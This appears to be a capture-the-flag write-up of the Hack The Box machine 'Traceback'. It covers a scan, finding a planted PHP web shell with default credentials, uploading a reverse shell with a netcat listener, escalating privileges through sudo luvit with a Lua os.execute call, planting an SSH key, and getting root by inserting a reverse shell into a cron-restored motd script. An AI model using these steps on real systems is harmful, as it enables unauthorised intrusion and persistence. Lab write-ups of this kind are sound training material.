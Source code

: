 ```yaml
---
title: "Traceback"
description: "Writeup for Traceback machine from HTB"
date: 2020-08-09
author: "Pablo Jesús González Rubio"
cover: "traceback.png"
coverAlt: "Traceback icon"
toc: true
tags: [ "Writeup" ]
---
```


## Scanning

Hosts: `10.10.10.181 traceback.htb`

Nmap Output:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-08 21:51 CEST
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.56 seconds
```

## Enumeration

Gobuster didn't throw anything.

In the HTTP page appears this:

{{< img "HTTP.png" "Free Internet" "border" >}}

Looking at source code:

{{< img "HTTP_source.png" "Source Code" "border" >}}

There's this commented phrase:

`<!--Some of the best web shells that you might need ;)-->`

Searching it on the internet lead me to [this Github page](https://github.com/Xh4H/Web-Shells).

As the page says it has a backdoor, I ran gobuster with the list of web shells:

```
gobuster dir -u http://traceback.htb -w list_web_shells.txt
```

```
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punkholic.php
punk-nopass.php
r57.php
README.md
smevk.php
wso2.8.5.php
```

The only result it throws is: `smevk.php`

So I went to *traceback.htb/smevk.php*:

{{< img "smevk.png" "smevk" "border" >}}

Entering in the login form `admin`:`admin` let us in:

{{< img "smevk2.png" "smevk2" "border" >}}

## Exploitation

It lists some files, included a PHP reverse shell which is the [pentest monkey one](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

I downloaded it and called it `reverse_shell.php`. I modified it and uploaded it, so what's left is to enter the url: `traceback.htb/reverse_shell.php` and we have a connection (listening with `nc -lnvp 4444`).

Then began with the [TTY procedure](https://nonuser.es/posts/pentest_cheatsheet/#tty) with python3 as python seems to not be installed.

## Privilege Escalation

### User

We log in as `webadmin` (similar to the `www-data`), and in his directory, there's this `note.txt` from `sysadmin`:

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

And by doing the usual privilege escalation checkups such as `sudo -l`:

```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

I saw I could run [`luvit`](https://luvit.io/) as `sysadmin`. Luvit is related to Lua. I instantly searched how to execute commands from Lua such as `/bin/bash`:

```lua
os.execute("/bin/bash")
```

I placed this script as `shell.lua` in `webadmin's` directory and run:

```
sudo -u sysadmin /home/sysadmin/luvit ./reverse.lua
```

And that granted me `sysadmin` user, pretty easy huh 

### Root

I copied my `id_rsa.pub` to `authorized_keys` just in case I lose my shell.

Running `pspy` on the machine let me see:

{{< img "pspy.png" "pspy" "border" >}}

This means there's a cron copying *motd* backup files to the original place which is `/etc/update-motd.d/`.

> *motd*: Message of The Day, it's a bash script that prints a banner when an SSH login is performed. Usually, the file that is used is `00-header`.

When performing an SSH, `pspy` shows:

{{< img "pspy_ssh.png" "ssh" "border" >}}

So taking this into account I could modify the `00-header` with a reverse shell and connect again (have to be in less than 30 secs as cron is updating the files forever) with SSH while listening on the port we choose, in my case 3333. And... voilá!

{{< img "root.png" "root" "border" >}}

